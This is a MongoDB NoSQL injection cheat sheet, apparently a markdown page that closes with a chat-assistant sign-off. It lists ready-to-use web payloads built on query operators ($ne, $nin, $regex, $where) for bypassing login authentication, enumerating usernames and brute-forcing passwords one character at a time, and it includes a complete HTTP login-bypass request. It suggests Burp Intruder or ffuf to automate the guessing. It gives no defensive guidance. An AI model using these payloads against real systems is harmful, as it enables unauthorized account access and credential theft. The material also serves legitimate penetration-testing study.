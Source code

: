 # NoSQL Injection Cheat Sheet (MongoDB)

## Context

Most NoSQL injections exploit MongoDB-style query syntax through insecure form fields (typically login, search, filter). Since MongoDB uses JSON-like queries, attackers can tamper with parameters in GET or POST requests by injecting special query operators.

---

### 1. **\[\$ne] – Not Equal**

**Usage:** Bypass authentication by making the value not equal to the real one.

**Context:** If the backend uses something like:

```js
db.users.find({ "username": inputUser, "password": inputPass })
```

**Payload:**

```nosql
username[$ne]=admin&password[$ne]=anything
```

**Effect:** Matches all users where username ≠ admin and password ≠ anything — likely returns a valid user if no validation is done properly.

---

### 2. **\[\$eq] – Equal**

**Usage:** Used explicitly to match exact values. Not typically useful for bypassing, but can be combined with regex or for enumeration.

**Payload:**

```nosql
username[$eq]=admin&password[$eq]=admin123
```

---

### 3. **\[\$gt], \[\$lt] – Greater Than / Less Than**

**Usage:** Bypass or enumerate values based on numeric comparisons.

**Payload:**

```nosql
age[$gt]=0&age[$lt]=100
```

---

### 4. **\[\$in] – Value is in Array**

**Usage:** Check if a value matches any in a set.

**Payload:**

```nosql
username[$in][]=admin&username[$in][]=root
```

---

### 5. **\[\$nin] – Value is *not* in Array**

**Usage:** Bypass filtering by excluding values from a set.

**Payload:**

```nosql
username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz
```

**Effect:** Fetches users who are not 'admin' or 'john', and whose password ≠ xyz.

---

### 6. **\[\$regex] – Regular Expression Matching**

**Usage:** Bruteforce/Enumerate string patterns, especially for passwords.

---

#### a. **Match known pattern:**

```nosql
username=admin&password[$regex]=^admin123$
```

**Meaning:** Password must be exactly "admin123".

---

#### b. **Enumerate length:**

**Payload:**

```nosql
username=admin&password[$regex]=^.{8}$
```

**Meaning:** Match any password of length 8.

---

#### c. **Character-by-character guessing (blind):**

For password length 6, testing if first letter is `a`:

```nosql
username=admin&password[$regex]=^a.....
```

Testing if first letter is `b`:

```nosql
username=admin&password[$regex]=^b.....
```

Keep iterating to bruteforce.

---

#### d. **Find exact match using regex:**

```nosql
password[$regex]=^password123$
```

---

### 7. **\[\$exists] – Field existence check**

**Payload:**

```nosql
username[$exists]=true
```

**Context:** Can be used to test which fields exist and cause logic flaws.

---

### 8. **\[\$where] – JavaScript expression (advanced/rare)**

**Payload (dangerous):**

```nosql
username[$where]=this.password.length==8
```

**Note:** Only works if backend supports `$where` (can be disabled due to security).

---

## Full Payload Examples

### Authentication Bypass (classic)

```http
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username[$ne]=admin&password[$ne]=dummy
```

---

### Filter bypass using \$nin

```http
username[$nin][]=admin&username[$nin][]=root&password[$ne]=123
```

---

### Password length guessing

```http
username=admin&password[$regex]=^.{8}$
```

---

### Blind character guessing

```http
username=admin&password[$regex]=^a.....
```

→ Next:

```http
username=admin&password[$regex]=^b.....
```

---

### Username enumeration

```http
username[$regex]=^a.*&password[$ne]=xyz
```

---

## NoSQL Regex Note: `{X}` vs `{X}$`

### `^.{X}`

* Matches strings with **at least X characters**
* Useful for testing **minimum length**
* Can give **false positives** if the string is longer than X

**Example:**

```nosql
password[$regex]=^.{6}
```

Matches: `"secret"`, `"secret123"`
Does not match: `"short"`

---

### `^.{X}$`

* Matches strings with **exactly X characters**
* Best for testing **exact password length**

**Example:**

```nosql
password[$regex]=^.{6}$
```

Matches: `"secret"`
Does not match: `"secret1"`, `"short"`

---

### Tip

Use `$` when:

* You want to confirm the **exact length** of a value
* You're brute-forcing a password **character-by-character**

---

Let me know if you want this exported as Markdown or added to your full NoSQLi guide.

---

**Tip**: Use tools like **Burp Suite Intruder**, **ffuf**, or **custom scripts** to automate character guessing and regex payload testing

---
